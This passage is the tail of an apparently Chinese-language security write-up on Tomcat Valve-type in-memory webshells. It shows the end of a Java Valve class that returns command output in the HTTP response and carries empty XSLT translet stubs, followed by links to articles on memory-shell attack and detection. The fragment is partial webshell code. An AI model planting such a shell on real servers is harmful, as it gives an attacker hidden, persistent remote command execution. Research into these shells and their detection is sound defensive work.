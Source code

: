 ```java
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
            this.getNext().invoke(request, response);
        } catch (Exception e) {
        }
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

参考：
[Tomcat-Valve型内存马](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Valve%E5%9E%8B/)
[Tomcat容器攻防笔记之Valve内存马出世](https://www.anquanke.com/post/id/225870)
[Tomcat之Valve内存马](https://p1n93r.github.io/post/security/tomcat%E4%B9%8Bvalve%E5%86%85%E5%AD%98%E9%A9%AC/)
[『Java安全』Tomcat内存马_动态注册Valve内存马_管道Pipeline内存马](https://blog.csdn.net/Xxy605/article/details/124120724)

**Tomcat内存马可参考文章：**
[https://github.com/ce-automne/TomcatMemShell](https://github.com/ce-automne/TomcatMemShell)
[深入浅出内存马（一） ](https://www.anquanke.com/post/id/262562)
[JSP内存马研究](https://xz.aliyun.com/t/10372)
[Tomcat 内存马分析及检测](https://myzxcg.com/2021/10/Tomcat-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90%E5%8F%8A%E6%A3%80%E6%B5%8B)
[JSP Webshell那些事 -- 攻击篇(下)](https://zhuanlan.zhihu.com/p/187303019)
[Java内存马攻防实战--攻击基础篇](https://mp.weixin.qq.com/s/HODFJF3NJmsDW2Lcd-ebIg)
[JavaWeb 内存马一周目通关攻略](https://su18.org/post/memory-shell/)
